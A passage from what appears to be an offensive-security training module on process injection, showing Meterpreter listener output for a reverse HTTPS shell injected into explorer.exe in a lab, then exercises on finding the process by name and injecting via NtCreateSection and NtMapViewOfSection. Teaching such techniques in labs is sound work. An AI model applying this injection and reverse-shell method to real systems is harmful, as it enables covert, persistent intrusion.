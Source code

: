 After compiling the project, we'll configure a Meterpreter listener and execute our process, injecting the shellcode. If all goes well, we will obtain a reverse shell running inside **explorer.exe**, as shown:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.12; (UUID: abrlqwbz) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.12:51449) at 2019-10-14 09:02:37 -0400

meterpreter > getpid
Current pid: 4804
```

> Listing 14 - Meterpreter shell from within explorer.exe

The process ID indicates that the Meterpreter shell is indeed running inside **explorer.exe**.

We were able to launch our Meterpreter shellcode directly inside **explorer.exe**, which means that even if the original process is terminated, the shell will persist.

We've successfully injected arbitrary shellcode into another process. Good.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #2

#### Labs

1. Instead of hardcoding the process ID of **explorer.exe**, which cannot be known remotely, use the [Process.GetProcessByName](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.getprocessesbyname?view=netframework-4.8) method to resolve it dynamically. Then update the C# code to perform process injection. What is the argument type required by _Process.GetProcessByName_?

Answer

2. Process injection with _VirtualAllocEx_, _WriteProcessMemory_, and _CreateRemoteThread_ is considered a standard technique, but there are a few others to consider.

The low-level native APIs _NtCreateSection_, _NtMapViewOfSection_, _NtUnMapViewOfSection_, and _NtClose_ in **ntdll.dll** can be used as alternatives to _VirtualAllocEx_ and _WriteProcessMemory_.

Create C# code that performs process injection using the four new APIs instead of _VirtualAllocEx_ and _WriteProcessMemory_.

Which API creates the input for the first argument of _NtMapViewOfSection_?

Answer

## 8.2. DLL Injection
